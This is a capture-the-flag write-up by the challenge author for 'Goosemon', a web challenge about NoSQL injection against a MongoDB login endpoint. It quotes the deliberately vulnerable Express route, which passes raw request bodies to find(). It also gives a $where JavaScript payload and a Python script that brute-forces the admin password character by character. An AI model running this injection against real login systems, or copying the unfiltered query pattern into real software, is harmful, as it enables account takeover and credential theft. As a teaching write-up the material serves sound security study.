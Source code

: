 ```yaml
---
layout: post
current: post
cover:  assets/squ1rrel/kyleburgess2025/goosemon/cover.webp
navigation: True
title: "Goosemon"
date: 2024-05-06 11:59:00
tags: [squ1rrel, web]
class: post-template
subclass: 'post'
author: kyleburgess2025
---
```


I'd rather die than use a password manager. In other news, can anyone help me remember the login info for my account? *The flag for this challenge is the account password.*

This was my first challenge that I ever wrote. I've seen countless SQL injection challenges, but as a corporate shill who is interning at MongoDB this summer, I wanted to try out NoSQL injection. This challenge is inspired by [this writeup](https://kevin-denotariis.medium.com/writeup-wild-goose-hunt-cyber-apocalypse-2021-ctf-hackthebox-38dde9c50178) by Kevin De Notariis about a Cyber Apocalypse 2021 challenge with a similar premise. This challenge ended up getting 54 solves, the 2nd most solves in a web category.

This writeup will include the intended solution; I saw a bunch of other solutions in writeups that use a similar premise, but different queries. I'll link those as I find them.

# The Problem

We are given a simple webpage for Goosemon, the totally-copyright-friendly monster collecting game themed on geese. The only option is to sign in. When we get to the sign in page, we can see that we need a username and a password. The project description let us know that the password is the flag. That's pretty much all you can get from the website on first glance.

![image of login website](/assets/squ1rrel/kyleburgess2025/goosemon/signin.webp)

Next, let's take a look at the source code. We can see that the flag is loaded into the database in the startup script and is associated with the `admin` username. 

```js
const { MongoClient } = require('mongodb');

// add the flag to the database
const url = process.env.ME_CONFIG_MONGODB_URL;
const client = new MongoClient(url);
const dbName = 'goosemon';
const flag = process.env.FLAG;
const userCollection = 'users';
const flagDoc = { username: "admin", password: flag };

(async () => {
    await client.connect();
    const db = client.db(dbName);
    const collection = db.collection(userCollection);
    await collection.insertOne(flagDoc);
    console.log('Flag added to database');
    await client.close();
}
)();
```

The .html file shows nothing interesting, just that we are calling the `/login` endpoint when we log in. However, the `/login` endpoint seems to be interesting, for a variety of reasons.

```js
const filter = (input) => {
    if (typeof input === 'string') {
        return input.toLowerCase().includes('regex');
    }
  
    if (typeof input === 'object') {
        return JSON.stringify(input).toLowerCase().includes('regex');
    }
}

app.post("/login", jsonParser, async (req, res) => {
  try {
    if (!req.body) {
      res.status(400).send("Request body is missing");
      return;
    }
    if (filter(req.body)) {
        res.status(400).send("Nuh uh uh, no regex allowed!");
        return;
    }

    const db = client.db(dbName);
    const collection = db.collection("users");

    const data = collection.find(req.body);
    const result = await data.toArray();
    if (result.length > 0) {
      res.status(200).send("Login successful!");
    } else {
      res.status(400).send("Login failed!");
    }
  } catch (error) {
    console.log(error);
    res.status(500).send("Internal server error");
  }
});
```

The first thing that catches my eye is the `filter` function. We cannot use the word "regex" anywhere in our query, ruling out the NoSQL injection mentioned in De Notariis's writeup. Also, there is virtually no query verification being done here. Our input is being used as the query itself - it doesn't make sure it consists of `username` and `password` fields. This is also important for my solve.

One last thing to note...

```yml
mongo:
image: mongo:5.0.26
restart: always
environment:
    MONGO_INITDB_ROOT_USERNAME: root
    MONGO_INITDB_ROOT_PASSWORD: password
```

This application does not use the most recent version of MongoDB; instead, it uses version 5. This is not completely necessary for solving the challenge, but it does make it easier for reasons we will see later.

# Putting It Together
Ok, let's get query building. My approach is to start with what we know the password starts with: `squ1rrel{`. Then, we go one by one through all of the allowable characters, concatenating them with our current password. We will see if the new password (with the added character) is a substring of the full password; if so, repeat to find the next character until we hit the final `}`. If not, we move on to the next character. 

There's a few methods we could use for finding if a string is a substring of an entry in the database. The method I used was the `$where` function, which allows you to use JavaScript in your queries. Something to note about this `$where` function: MongoDB version 6.0 updated the internal JavaScript engine to disallow a bunch of string and array methods, including `.contains`, `.substr`, `.includes`, and others. See the full list [here](https://www.mongodb.com/docs/manual/release-notes/6.0-compatibility/#std-label-6.0-js-engine-change). I decided to use `.contains` and created the following query:

```py
payload = {
    "username": "admin",
    "$where" : f"this.password.includes(\"{curr_pw}\")"
    }
```

My solve script, therefore, looked like this:

```py
import requests

url = "http://34.132.166.199:5249/login"

full_pw = "squ1rrel{"

def check_chars(password):
    for char in range(0x21, 0x7F): 
        curr_pw = password + chr(char)

        payload = {
            "username": "admin",
            "$where": f"this.password.includes(\"{curr_pw}\")"
            }

        response = requests.post(url, json=payload)

        if 'Login successful' in response.text:
            print(curr_pw)
            return curr_pw

while full_pw[-1] != "}":
    full_pw = check_chars(full_pw)

print(full_pw)
```

This runs great, until...

![image of Python logs showing the script failing](/assets/squ1rrel/kyleburgess2025/goosemon/logs.webp)

Oh no, "regex" is in the flag! Thankfully, since my method looks for a substring, I can restart my solve script with `egex` as the original `full_pw`. A few potential solves, including those that use the `$lt` and `$gt` operator, stopped working completely at this point. I added `regex` to the flag mainly to mess with people and make some queries not work. This was cruel. Sorry 🤭

Flag: `squ1rrel{7h0ugh7_y0u_c0u1d_regex_y0ur_way_0u7_0f_7h1s_ay3?}`